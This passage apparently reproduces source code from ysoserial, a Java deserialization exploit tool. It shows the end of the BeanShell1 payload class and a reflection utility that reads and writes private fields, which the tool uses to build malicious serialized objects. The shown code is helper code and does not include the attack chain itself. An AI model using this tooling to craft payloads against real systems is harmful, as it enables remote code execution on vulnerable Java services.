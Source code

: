 ```java
    }

    public static void main(final String[] args) throws Exception {
	PayloadRunner.run(BeanShell1.class, args);
    }
}
```

and [`src/main/java/ysoserial/payloads/util/Reflections.java`](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/util/Reflections.java). 

```java
package ysoserial.payloads.util;

import java.lang.reflect.AccessibleObject;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;

import sun.reflect.ReflectionFactory;

import com.nqzero.permit.Permit;

@SuppressWarnings ( "restriction" )
public class Reflections {

    public static void setAccessible(AccessibleObject member) {
        String versionStr = System.getProperty("java.version");
        int javaVersion = Integer.parseInt(versionStr.split("\\.")[0]);
        if (javaVersion < 12) {
          // quiet runtime warnings from JDK9+
          Permit.setAccessible(member);
        } else {
          // not possible to quiet runtime warnings anymore...
          // see https://bugs.openjdk.java.net/browse/JDK-8210522
          // to understand impact on Permit (i.e. it does not work
          // anymore with Java >= 12)
          member.setAccessible(true);
        }
    }

	public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
	try {
	    field = clazz.getDeclaredField(fieldName);
	    setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
		return field;
	}

	public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
		final Field field = getField(obj.getClass(), fieldName);
		field.set(obj, value);
	}

	public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
		final Field field = getField(obj.getClass(), fieldName);
		return field.get(obj);
	}
```